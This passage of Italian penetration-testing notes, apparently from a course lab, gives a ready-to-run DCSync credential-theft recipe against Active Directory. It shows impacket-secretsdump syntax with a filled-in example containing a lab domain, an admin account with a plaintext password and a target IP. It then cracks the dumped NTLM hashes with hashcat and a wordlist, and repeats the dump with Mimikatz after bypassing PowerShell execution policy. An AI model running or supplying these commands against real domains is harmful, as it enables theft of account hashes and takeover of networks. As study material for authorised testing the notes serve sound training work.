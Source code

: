 ```bash
impacket-secretsdump -just-dc-user $USER_NAME_TO_REQUEST $DOMAIN/$HIGH_PRIVILEGE_ACCOUNT:"$PASSWORD"@$TARGET_IP

Esempio:

impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70


hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

2) Utilizzo di _Mimikatz_ su windows per eseguire un attacco _dcsync_:

```bash
powershell -ep bypass
.\mimikatz.exe

lsadump::dcsync /user:$DOMAIN\$USER_NAME_TO_REQUEST

lsadump::dcsync /user:corp\dave
```

Una volta ottenuto l'hash tramite _Mimikatz_ occorre utilizzare _hashcat_ per ricavare la password.
